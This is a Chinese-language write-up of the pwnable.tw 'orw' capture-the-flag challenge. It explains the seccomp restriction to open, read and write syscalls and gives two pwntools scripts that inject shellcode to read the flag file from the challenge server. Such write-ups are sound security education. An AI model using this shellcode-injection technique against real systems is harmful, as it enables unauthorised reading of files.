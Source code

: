 ```yaml
---
title: Writeup of pwnable.tw之orw
date: 2020-03-21
tags: CTF,Writeup
---
```


题目显示Only `open` `read` `write` syscall are allowed to use.应该是使用了沙箱，

后门程序是用不成了，只能使用这三个函数直接读取flag。了

![](./orw.png)

使用IDA Pro反汇编程序：

```assembly
.text:08048548                 lea     ecx, [esp+4]
.text:0804854C                 and     esp, 0FFFFFFF0h
.text:0804854F                 push    dword ptr [ecx-4]
.text:08048552                 push    ebp
.text:08048553                 mov     ebp, esp
.text:08048555                 push    ecx
.text:08048556                 sub     esp, 4
.text:08048559                 call    orw_seccomp
.text:0804855E                 sub     esp, 0Ch
.text:08048561                 push    offset format   ; "Give my your shellcode:"
.text:08048566                 call    _printf
.text:0804856B                 add     esp, 10h
.text:0804856E                 sub     esp, 4
.text:08048571                 push    0C8h            ; nbytes
.text:08048576                 push    offset shellcode ; buf
.text:0804857B                 push    0               ; fd
.text:0804857D                 call    _read
.text:08048582                 add     esp, 10h
.text:08048585                 mov     eax, offset shellcode
.text:0804858A                 call    eax ; shellcode
.text:0804858C                 mov     eax, 0
.text:08048591                 mov     ecx, [ebp+var_4]
.text:08048594                 leave
.text:08048595                 lea     esp, [ecx-4]
.text:08048598                 retn
.text:08048598 ; } // starts at 8048548
.text:08048598 main            endp
```

可以得出整个程序的执行流程：

首先，在0x08048559地址处调用了orw_seccomp，那么这东西是干嘛的呢？

[sseccomp]([https://blog.betamao.me/2019/01/23/Linux%E6%B2%99%E7%AE%B1%E4%B9%8Bseccomp/#seccomp](https://blog.betamao.me/2019/01/23/Linux沙箱之seccomp/#seccomp))

short for secure computing mode([wiki](https://en.wikipedia.org/wiki/Seccomp))是一种限制系统调用的安全机制，可以当沙箱用。在严格模式下只支持`exit()`，`sigreturn()`，`read()`和`write()`，其他的系统调用都会杀死进程，过滤模式下可以指定允许那些系统调用，规则是bpf，可以使用[seccomp-tools](https://github.com/david942j/seccomp-tools)查看

在早期使用seccomp是使用prctl系统调用实现的，后来封装成了一个libseccomp库，可以直接使用`seccomp_init`,`seccomp_rule_add`,`seccomp_load`来设置过滤规则，但是我们学习的还是从prctl，这个系统调用是进行进程控制的，这里关注seccomp功能。
首先，要使用它需要有`CAP_SYS_ADMIN`权能，否则就要设置`PR_SET_NO_NEW_PRIVS`位，若不这样做非root用户使用这个程序时`seccomp`保护将会失效！设置了`PR_SET_NO_NEW_PRIVS`位后能保证`seccomp`对所有用户都能起作用，并且会使子进程即execve后的进程依然受控，意思就是即使执行`execve`这个系统调用替换了整个binary权限不会变化，而且正如其名它设置以后就不能再改了，即使可以调用`ptctl`也不能再把它禁用掉。

然后程序接下来将shellcode读到.bss段的0x804a060地址处，然后接下来直接使用call指令跳转到该处执行。

直接写shellcode：

```python
from pwn import *
context(arch = "i386", os = "linux")
#p = process("./orw")
p = remote("chall.pwnable.tw", "10001")
ass = '''
         xor eax, eax
         push eax
         push 0x6761
         push 0x6c662f77
         push 0x726f2f65
         push 0x6d6f682f
         mov al, 0x05
         mov ebx, esp
         xor ecx, ecx
         int 0x80
         sub esp, 0x40
         mov ebx, eax
         mov al, 0x03
         mov ecx, esp
         mov dl, 0x40
         int 0x80
         mov al, 0x04
         mov bl, 0x01
         mov ecx, esp
         mov dl, 0x40
         int 0x80
      '''
shellcode = asm(ass)
p.recvuntil(":")
p.send(shellcode)
s = p.recv(0x40)
print s
```

后来看到网上有人写的：

```python
from pwn import *
context(arch='i386',os='linux',log_level='debug')
myelf = ELF("./orw")
#io = process(myelf.path)
io  = remote("chall.pwnable.tw",10001)
shellcode = ""
shellcode += shellcraft.i386.pushstr('/home/orw/flag').rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_open',"esp", 0).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_read',"eax", 0x0804A0D7,40).rstrip()
shellcode += shellcraft.i386.linux.syscall('SYS_write',1, 0x0804A0D7,40).rstrip()
#print shellcode
#print len(asm(shellcode))
io.recv()
io.send(asm(shellcode))
io.interactive()
```
